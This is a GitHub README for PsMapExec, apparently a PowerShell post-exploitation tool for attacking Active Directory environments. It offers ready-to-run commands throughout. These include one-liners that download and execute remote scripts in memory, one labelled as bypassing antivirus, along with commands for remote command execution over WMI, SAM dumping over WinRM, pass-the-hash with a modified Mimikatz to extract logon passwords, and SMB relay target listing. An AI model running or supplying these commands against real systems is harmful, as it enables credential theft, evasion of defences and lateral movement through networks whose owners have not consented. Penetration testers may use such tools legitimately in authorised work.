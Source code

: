 # PsMapExec

More detailed documentation on how to use PsMapExec is available on Gitbook: https://viperone.gitbook.io/pentest-everything/psmapexec

## What is PsMapExec

A PowerShell tool heavily inspired by the popular tool CrackMapExec. Far too often I find myself on engagements without access to Linux in order to make use of CrackMapExec. 

PsMapExec is used as a post-exploitation tool to assess and compromise an Active Directory environment. 

## What methods does it support

Currently supported methods (Protocols)

* PsExec
* RDP
* SMB Signing
* WinRM
* WMI

Planned methods

* MSSQL (In testing)
* IPMI
* SNMP
* FTP
* SSH
## Quick Start
### Load the script directly into memory (Bypass AV)
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/Invoke-NETMongoose.ps1");IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/dev/PsMapExec.ps1")
```
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/dev/PsMapExec.ps1")
```
\
Execute some commands over WMI
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WMI -Command "net user"
```
\
Check RDP access across all systems
```
PsMapExec -Targets All -Username Admin -Password Pass -Method RDP
```
\
Dump SAM over WinRM and Parse the results
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WinRM -Module SAM -Option Parse
```
\
Authenticate over WMI with a hash and execute mimikatz
```
PsMapExec -Targets Workstations -Username Admin -Hash [Hash] -Method WMI -Module LogonPasswords -Option Parse -ShowOutput
```
\
Check SMB Signing on all domain systems
```
PsMapExec -Targets All -GenRelayList
```
## Detailed Usage
* https://viperone.gitbook.io/pentest-everything/psmapexec
* https://viperone.gitbook.io/pentest-everything/psmapexec/using-credentials
* https://viperone.gitbook.io/pentest-everything/psmapexec/methods
* https://viperone.gitbook.io/pentest-everything/psmapexec/modules
* https://viperone.gitbook.io/pentest-everything/psmapexec/spray


## Aknowledgements
## Dependencies
PsMapExec has some dependencies that need to be pulled from outside the script itself in order to function.
Primarily these are:
  * Kirby (PowerShell based Kerberos ticket dump)
  * Invoke-Pandemonium (Slightly modified Mimikatz)

Currently, they are pulled from a seperate GitHub repository: https://github.com/The-Viper-One/PME-Scripts \
If you are working within an environment that has no external access or GitHub is blocked by a firewall you will need to clone the scripts in the respository onto the system from which PsMapExec is running from.

PsMapExec does not currently host a HTTP server for these so you will need to use something like HFS: https://www.rejetto.com/hfs/?f=dl
PsMapExec supports pointing to a locally or alternatively hosted server for the script dependencies.
```
PsMapExec -Targets All -Username [User] -Password [Pass] -LocalFileServer [IP]
```
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/499ce08a-153f-434c-ae80-9df24afbe5e4)

## Support me
<a href="https://www.buymeacoffee.com/ViperOne" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


## Example Images

### Command Execution
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/e770e2b3-d441-4094-8a14-94848a3b6b74)

### SAM Dump
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/f00a5468-ee99-4db3-82f5-e59223ecf219)


### Mimikatz
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/a576b9c8-703e-423e-8041-44daca6cf335)

### RDP Access
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/ba875e2f-5898-4c10-a33c-7bcb9ef3a2f5)



